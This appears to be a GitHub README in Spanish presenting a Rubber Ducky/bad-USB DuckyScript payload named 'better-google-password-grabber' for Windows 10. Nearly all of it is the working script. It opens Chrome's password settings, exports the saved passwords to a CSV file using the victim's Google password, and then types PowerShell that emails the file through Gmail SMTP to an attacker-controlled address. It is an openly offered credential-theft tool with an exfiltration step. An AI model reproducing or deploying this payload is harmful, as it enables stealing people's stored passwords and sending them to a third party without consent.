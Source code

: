 # better-google-password-grabber
Solia ocupar esos payloads para Rubber Ducky o bad-usb, muchos estan desactualizados ya que google implementa mas medidas de seguridad cada dia, en fin... para este payload necesitas la contraseña de la cuenta de google de la victima.




REM Author: DiegoJRV \n
REM Ducky chrome password stealer for Windows 10\n
Delay 1000\n
REM ----------- opens chrome web browser\n
GUI r\n
DELAY 500\n
STRING chrome\n
DELAY 400\n
ENTER\n
DELAY 600\n
REM ----------- exports passwords into csv file\n
STRING chrome://settings/passwords\n
ENTER\n
DELAY 1000\n
TAB\n
DELAY 100\n
TAB\n
DELAY 100\n
TAB\n
DELAY 100\n
TAB\n
DELAY 100\n
TAB\n
DELAY 100\n
TAB\n
DELAY 100\n
TAB\n
DELAY 100\n
ENTER\n
DELAY 200\n
F5\n
DELAY 1000\n
CTRL f\n
DELAY 1000\n
STRING ayuda\n
DELAY 1000\n
ENTER\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 1000\n
ENTER\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 200\n
ENTER\n
DELAY 1000\n
CTRL f\n
DELAY 1000\n
STRING exportar contrase\n
DELAY 1000\n
ENTER\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 1000\n
TAB\n
DELAY 1000\n
ENTER\n
DELAY 2000\n
TAB\n
DELAY 2000\n
ENTER\n
DELAY 1000\n
ENTER\n
DELAY 4000\n
STRING CONTRASEÑA DEL CORREO (VICTIMA)\n
DELAY 1000\n
ENTER\n
DELAY 7000\n
STRING chromepasswords.csv\n
DELAY 2000\n
ENTER\n
DELAY 1000\n
CONTROL W\n
DELAY 100\n
REM -------------- sends it by email using powershell\n
GUI r\n
DELAY 200\n
STRING powershell\n
ENTER\n
DELAY 500\n
STRING $SMTPServer = 'smtp.gmail.com'\n
ENTER\n
DELAY 100\n
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)\n
ENTER\n
DELAY 100\n
STRING $SMTPInfo.EnableSSL = $true\n
ENTER\n
DELAY 100\n
REM ---Make sure to enable less secure app access to sender's mail here: https://myaccount.google.com/lesssecureapps\n
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('PARTE DEL CORREO QUE VA ANTES DEL ARROBA (CORREO QUE ENVIARA)\n
ALTGR q\n
STRING gmail.com', 'CONTRASEÑA DEL CORREO')\n
ENTER\n
DELAY 100\n
STRING $SMTPServer = $E = New-Object System.Net.Mail.MailMessage\n
ENTER\n
DELAY 100\n
STRING $E.From = 'PARTE DEL CORREO QUE VA ANTES DEL ARROBA (CORREO QUE ENVIARA)\n
ALTGR q\n
STRING gmail.com'\n
ENTER\n
DELAY 100\n
STRING $E.To.Add('PARTE DEL CORREO QUE VA ANTES DEL ARROBA (CORREO QUE RECIBIRÁ)\n
ALTGR q\n
STRING gmail.com')\n
ENTER\n
DELAY 100\n
STRING $E.Subject = $env:UserName\n
ENTER\n
DELAY 100\n
STRING $E.Body = 'Success! The password file is attached!'\n
ENTER\n
DELAY 100\n
STRING $F = 'Downloads/chromepasswords.csv'\n
ENTER\n
DELAY 100\n
STRING $E.Attachments.Add($F)\n
ENTER\n
DELAY 100\n
STRING $F = $SMTPInfo.Send($E)\n
ENTER\n
DELAY 100\n
STRING exit\n
DELAY 100\n
ENTER\n
